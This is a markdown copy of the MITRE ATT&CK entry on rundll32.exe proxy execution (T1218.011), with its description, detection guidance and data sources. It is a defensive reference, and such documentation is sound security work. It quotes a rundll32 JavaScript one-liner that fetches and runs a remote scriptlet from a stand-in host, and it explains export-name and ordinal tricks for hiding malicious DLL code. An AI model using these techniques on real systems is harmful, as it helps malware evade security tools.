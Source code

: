 ```yaml
---
created: 2020-01-23
last_modified: 2023-08-14
version: 2.2
tactics: Defense Evasion
url: https://attack.mitre.org/techniques/T1218/011
platforms: Windows
tags: [T1218_011, techniques, Defense_Evasion]
---
```


## System Binary Proxy Execution- Rundll32

### Description

Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll) DLL functions can also be exported and executed by an ordinal number (ex: <code>rundll32.exe file.dll,#1</code>).

Additionally, adversaries may use [Masquerading](https://attack.mitre.org/techniques/T1036) techniques (such as changing DLL file names, file extensions, or function names) to further conceal execution of a malicious payload.(Citation: rundll32.exe defense evasion) 

### Detection

Use process monitoring to monitor the execution and arguments of rundll32.exe. Compare recent invocations of rundll32.exe with prior history of known good arguments and loaded DLLs to determine anomalous and potentially adversarial activity.

Command arguments used with the rundll32.exe invocation may also be useful in determining the origin and purpose of the DLL being loaded. Analyzing DLL exports and comparing to runtime arguments may be useful in uncovering obfuscated function calls.

### Defenses Bypassed

Anti-virus, Application control, Digital Certificate Validation

### Data Sources

  - Command: Command Execution
  -  File: File Metadata
  -  Module: Module Load
  -  Process: Process Creation
### Detection Rule

```query
tag: detection_rule
tag: T1218_011
```

### Rule Testing

```query
tag: atomic_test
tag: T1218_011
```

